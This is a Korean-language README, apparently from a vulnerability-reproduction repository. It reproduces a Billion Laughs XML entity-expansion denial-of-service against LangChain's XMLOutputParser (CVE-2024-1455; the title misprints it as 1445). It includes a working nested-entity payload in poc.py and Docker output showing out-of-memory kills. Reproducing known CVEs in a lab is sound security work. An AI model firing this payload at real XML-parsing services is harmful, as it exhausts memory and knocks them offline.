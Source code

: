 # Billion laughs Attack in LangChain (CVE-2024-1445)

영향을 받는 버전: langchain >=0,<0.1.14  
해당 취약점은 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.

## Description

**CVE-2024-1455**는 XXE 익스플로잇의 일종인 Billion Laughs Attack을 가능하게 한다.  
Billion Laughs Attack은 XML 파싱 프로세스를 악용한 XXE 취약점의 한 유형이다. 해당 공격은 XML 문서 내에 여러 계층의 엔티티를 중첩하여 XML 파서가 엔티티를 확인하고 확장하는 과정에서 과도한 CPU 및 메모리 리소스를 소모하게 만든다. 이러한 과도한 리소스 사용은 서비스 거부 공격(DoS)으로 이어져 영향을 받는 시스템의 가용성과 성능에 심각한 영향을 미친다.

---

## Environmental Construction

* 취약한 버전의 langchain과 해당 버전에 맞는 패키지를 찾아 `requirements.txt`를 구성한다.
* Langchain의 XMLOutputParser를 익스플로잇 할 수 있는 `poc.py`를 작성한다.
* 이후 `Dockerfile`과 `docker-compose.yml` 파일을 작성한다.

---

## Proof of Concept

```
docker compose up
```
* 해당 명령으로 `docker-compose.yml` 파일을 실행한다.
  
```
from langchain.output_parsers import XMLOutputParser


payload="""<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>"""

parser = XMLOutputParser()

parser.parse(payload)
```
* 이후 해당 `poc.py`가 실행된다.

---

## Output
* Successful Exploit:  
![image](https://github.com/user-attachments/assets/a16acad6-4456-4c93-a7bc-08b139f4db3f)
* 해당 이미지처럼 137 코드가 반환되면서 컨테이너가 종료되면 익스플로잇 성공.
* 137 코드는 Dokcer의 OOM(Out of Memory) 에러로 Billion Laughs Attack으로 인해 컨테이너의 메모리가 모두 소모되어 OOM 에러가 발생한다.
<br>

![after2](https://github.com/user-attachments/assets/a9a85804-2508-4f2b-99ee-26c0a7cbc1ac)
* 보다 자세한 결과 확인을 위해 `Dockfile`에서 `/bin/bash`를 실행하게 수정 후 `htop`으로 리소스 상태를 확인해본다.
* `poc.py` 실행 결과 CPU 사용량과 메모리 소비량이 급격히 늘어나는 것을 볼 수 있다.
<br>

![after3](https://github.com/user-attachments/assets/e54a2d39-152c-4a4a-8455-db201cf5386b)
* 메모리 과다 사용으로 인해 컨테이너에서 해당 프로세스를 SIGKILL로 종료한다.

---

## Reference
https://cve.mitre.org/cgi-bin/cvename.cgi?name=2024-1455  
https://data.safetycli.com/vulnerabilities/CVE-2024-1455/66962/  
https://huntr.com/bounties/4353571f-c70d-4bfd-ac08-3a89cecb45b6

